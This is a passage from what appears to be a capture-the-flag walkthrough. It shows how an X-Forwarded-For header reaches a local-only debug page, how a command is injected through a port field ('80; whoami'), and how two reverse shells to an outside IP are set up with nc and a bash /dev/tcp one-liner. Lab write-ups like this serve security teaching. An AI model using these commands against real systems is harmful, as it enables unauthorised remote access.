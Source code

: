 
![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692567805495/80f8b2ca-8a38-44c7-a46a-508e8eb7fd4a.png){: .center-image }

### Step 6: Debug and Initial Foothold

Unfortunately, we still cannot access the `/debug` webpage because it is only accessible to local users. However, we can bypass this restriction by adding the `X-Forwarded-For` header to our request.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568822375/77b94a7f-697f-4395-9b6c-53e4cd62257d.png){: .center-image }

Revise the request, and we will be granted access to the `/debug` page.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692567950746/a10b1a49-df28-45d2-b1ef-259fdb8c3655.png){: .center-image }

From here, we can attach a secondary command to a port like this:

```bash
80; whoami
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568866125/71c3f37e-6d19-4d6e-9ec3-f06066768766.png){: .center-image }

Let's see if we can obtain a reverse shell from this. First, let's set up our listener:

```bash
rlwrap -cAr nc -lvnp 1337
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568012419/5e6d20f2-b79f-40ca-a79e-5ba73834a983.png){: .center-image }

Now, let's attach our shell:

```bash
80; nc 10.13.28.215 1337 | bash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568057684/a3216654-2bec-423a-83b8-e0163afcdaa5.png){: .center-image }

Perfect, we received a callback. However, we can't do much with this shell, so let's see if we can obtain a better one using a bash one-liner. We'll need to set up another listener to catch this one.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568082921/8565abad-6bad-42c2-9704-7e1c95484d2f.png){: .center-image }

Now, let's initiate a better shell:

```bash
bash -i >& /dev/tcp/10.13.28.215/13337 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568105789/cd419d6f-8013-4524-8cf4-9fc02a4e7ee0.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568112760/be6bdd82-7d33-41ce-8424-bbdcb59bedc1.png){: .center-image }

And we're ready to begin our privilege escalation to root!

### Step 7: Privesc and Root
